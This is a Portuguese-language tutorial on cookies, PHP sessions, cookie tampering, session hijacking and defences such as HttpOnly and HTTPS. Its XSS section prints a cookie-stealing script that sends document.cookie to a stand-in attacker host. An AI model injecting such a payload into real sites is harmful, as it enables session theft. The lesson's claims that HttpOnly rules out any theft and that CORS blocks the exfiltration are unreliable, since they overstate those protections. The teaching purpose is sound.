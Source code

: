# Cookie e Sessões

## Cookies

_Cookies_ são pequenos fragmentos de informação que um site pode armazenar no computador do usuário para uso posterior. Eles são muito úteis uma vez que o protocolo HTTP não apresenta nenhum meio de tornar as informações de uma conexão persistentes. Se dependêssemos apenas das conexões HTTP, seria impossível, por exemplo, usar um carrinho de compras, pois ao trocar para a página de compra as informações seriam perdidas.

Em um site de jogos de navegador, é muito comum que o progresso do jogo seja salvo em _cookies_, no navegador. Os _cookies_ também são bastante usados para armazenar configurações do cliente, como volume do _player_ de música, cor do fundo do site etc.

Geralmente, os navegadores limitam o tamanho que um _cookie_ pode ter para 4KB, além de apagar _cookies_ que já tiveram sua validade vencida.

Exemplo de _cookie_ feito em PHP:
```php
<?php
    // cookies.php

    if (isset($_COOKIE['cookie_teste'])) {
        echo 'Você JÁ passou por aqui!';
    } else {
        echo 'Você NUNCA passou por aqui.'; 
        //Pode ser que você tenha passado há uma hora, mas o servidor não tem como saber
        setcookie('cookie_teste', 'Algum valor...', time() + 3600);
    }
?>
```
Retirado de https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html.

Esse código implementa um conceito similar à sessão (mas ainda não é uma). Nesse caso, um certo conteúdo pode ser exibido de acordo com o intervalo de tempo desde a última visita. O _cookie_ no código possui uma hora de "vida" (3600 segundos).

Um _cookie_ é de acesso limitado ao site que o criou, de modo a garantir que um site mal intencionado não roube os _cookies_ que o site do seu banco armazenou no seu computador por exemplo.

## Sessões

Agora, vamos ao que, no momento, mais nos interessa. **Os _cookies_ podem ser usados como forma de autenticação**, geralmente armazenando o id de uma **sessão**. É devido às sessões que é possível logar automaticamente em redes sociais - sem precisar entrar com suas credenciais - por muito tempo. Quando o usuário conecta-se, uma sessão é iniciada e o id dessa sessão é salvo em um _cookie_ em seu computador. Este será usado mais tarde para informar ao servidor que o usuário já possui um sessão ativa (e, portanto, não é preciso entrar com usuário e senha novamente). A maioria dos sites que implementam esse recurso estabelecem uma data de expiração da sessão, de modo a invalidar o id salvo no _cookie_.

A grande diferença aqui é que **a sessão é armazenada no servidor**, enquanto **o _cookie_ é armazenado localmente**.

Exemplo de sessão em PHP:
```php
<?php
    // sessions.php

    session_start();

    if (isset($_SESSION['usuario'])) {
        echo "Bem vindo {$_SESSION['usuario']}!";
    } else {
        echo 'Você NUNCA passou por aqui.';
        $_SESSION['usuario'] = 'João';
    }
?>
```
Retirado de https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html

## Falhas

### Uso inocente de _cookies_

É necessário saber como usar os _cookies_. Um exemplo exagerado de mau uso seria um site que lê e salva um _cookie_ `admin=1` para admins e `admin=0` para usuários normais. Na primeira conexão, o _cookie_ não existe, então o site manda o _browser_ salvar `admin=0`. Quando o usuário entra com uma conta de administrador, o site manda o _browser_ mudar o _cookie_ para `admin=1` e o site exibe conteúdo que não era visível. Lindo, não?
O problema com essa forma de autenticação é que bastaria o usuário editar o próprio _cookie_ e alterar o conteúdo (de `admin=0` para `admin=1`) para se tornar administrador do site, burlando todo o "sistema de segurança".

### Session Hijacking (Sequestro de Sessão)

Certo, essa foi uma falha bem besta, mas e se em vez de `admin=0`, o _cookie_ fosse `PHPSESSID=somesessionid` - um _cookie_ identificador de uma sessão legítima?

Basta alguém conseguir ler esse _cookie_ para ter acesso à conta atrelada à sessão. Esse ataque é chamado de **Session Hijacking** (Sequestro de Sessão).

Não há como evitar que alguém com acesso físico ao seu computador (com o navegador aberto na página) obtenha sua sessão, mas se isso ocorreu ele já tem muito mais "poder" sobre seus dados e sessões.

O que é possível é evitar que pessoas mal intencionadas obtenham sua sessão por meio de outros ataques, como **XSS (Cross-Site-script)** e **MITM (Man-In-The-Middle**). O segundo ataque caracteriza-se, basicamente, por haver um atacante entrando no meio de uma conexão não encriptada (HTTP) e lendo todo o tráfego entre a vítima e o site, incluindo os _cookies_ enviados e a sessão. Já o primeiro ataque resume-se no atacante injetar código na página de alguma forma. Esse código injetado pode, em certos casos, ler, modificar e até enviar o conteúdo dos _cookies_ armazenados para algum outro servidor.
([Ler mais sobre XSS](https://github.com/Haltz01/Ganesh_PingWeb2020_Aula01/blob/master/Aula01_XSS.md))

#### Exemplo de Session Hijacking por meio de XSS

```html
<script type="text/javascript">
    new Image().src="http://www.sitedoatacante.com.br/cookies.php?c="+encodeURI(document.cookie);
</script>
```
Fonte: http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/

Esse script colocado pelo atacante na página adiciona uma "imagem" na página. O navegador acessa o link indicado para baixar a imagem, mas no link é passado o cookie como parâmetro e o atacante usa um _script_ no site dele para salvar o _cookie_ que possui a sessão. Pronto, agora ele pode entrar na conta e fazer o que quiser! É por essa e por outras que alguns sites pedem para o usuário digitar novamente a senha ao alterar informações sensíveis da conta, como e-mail de recuperação e senha.


## Remediações

* Ataque XSS: definir os _cookies_ com a política HTTP-Only (Leia abaixo)
* Ataque MITM: criptografar a conexão, usando HTTPS ([Ler Mais](https://github.com/Haltz01/Ganesh_PingWeb2020_Aula01/blob/master/Aula01_HTTPS.md))

## Extras

### HTTP-ONLY

É sempre bom evitar brechas para ataques XSS, logo uma camada extra de proteção nunca é de mais. Um _cookie_ do tipo HTTP-Only não pode ser modificado por meio de código Javascript, seja ele legítimo (da página original) ou injetado.

Dessa forma, é garantido que não haverá qualquer possibilidade de um _cookie_ ser roubado por meio de injeção de código (XSS).

Como definir um _cookie_ como HTTP-Only em PHP:

```php
//Template:
//setcookie ($name, $value, $expire, $path, $domain, $secure, $httponly);

//Definindo de fato:
setcookie("TesteCookie", "123456", 0, "/", "example.com", false, true);

//Ou, se preferir definir direto no header da response:
header("Set-Cookie: nome=valor; path=/; httpOnly" );
//É desse jeito que os cookies aparecem para o atacante que observa as respostas do servidor

//Por padrão, ao criar uma sessão no PHP, é criado um cookie usado para
//controlar o acesso do usuário na sessão. Normalmente o cookie é chamado
//PHPSESSID. Na configuração padrão esse cookie não é httpOlny. Para ativar o
//parâmetro httpOnly no cookie de sessão do PHP, setar a diretiva
//session.cookie_httponly no php.ini para true:
session.cookie_httponly = true

```
Fonte: http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/

### CSP e CORS
CSP - Content Security Policy - é um _header_ na conexão HTTP ou HTTPS que indica ao navegador diversas medidas de segurança, visando à blindagem contra XSS.

CORS - Cross-Origin Resource Sharing - é um _header_ que o site passa para o navegador, dizendo com quais sites ele pode se conectar por meio da página atual. Esse recurso evita que XSS consiga enviar o _cookie_ roubado para o site do atacante (ainda é possível burlar isso com callbacks em alguns casos).

[Leia mais na aula de XSS](https://github.com/Haltz01/Ganesh_PingWeb2020_Aula01/blob/master/Aula01_XSS.md)

## Leia Mais
https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html \
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy \
https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS \
https://developer.mozilla.org/en-US/docs/Tools

---
